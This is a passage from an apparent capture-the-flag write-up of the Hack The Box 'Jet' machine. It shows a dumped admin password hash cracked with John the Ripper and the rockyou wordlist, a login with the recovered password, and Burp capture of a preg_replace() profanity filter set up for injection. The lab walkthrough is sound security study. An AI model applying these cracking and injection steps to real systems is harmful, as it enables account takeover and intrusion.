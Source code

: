 ```sh
Table: users
[1 entry]
+----+------------------------------------------------------------------+----------+
| id | password                                                         | username |
+----+------------------------------------------------------------------+----------+
| 1  | 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084 | admin    |
+----+------------------------------------------------------------------+----------+
```

We have the admin password hash, we can crack this with JohnTheRipper:

```sh
┌──(root💀kali)-[~/htb/jet]
└─# echo "97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084" > jet-admin-hash
                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/htb/jet]
└─# john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt jet-admin-hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Hackthesystem200 (?)     
1g 0:00:00:01 DONE (2021-11-19 15:58) 0.7692g/s 8570Kp/s 8570Kc/s 8570KC/s IloveBrandiLynn..Galgenwaard
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

Now we have the admin password we can login to the site:

![jet-dashboard](/assets/images/2021-11-19-16-17-26.png)

Down the bottom we have another flag:

![jet-flag4](/assets/images/2021-11-19-16-18-02.png)

Looking at email section there is a profanity filter:

![jet-email](/assets/images/2021-11-19-16-23-49.png)

Capture in Burp to see the preg_replace() function:

![jet-profanity](/assets/images/2021-11-19-16-25-23.png)

Send in Burp and we see this response:

```html
    <div class="login-box-body">
        <p class="login-box-msg">
            <i class="fa fa-warning text-warning"></i> <b>Warning:</b> Profanity filter is applied. Please check message before sending.
            <br>
        </p>
```
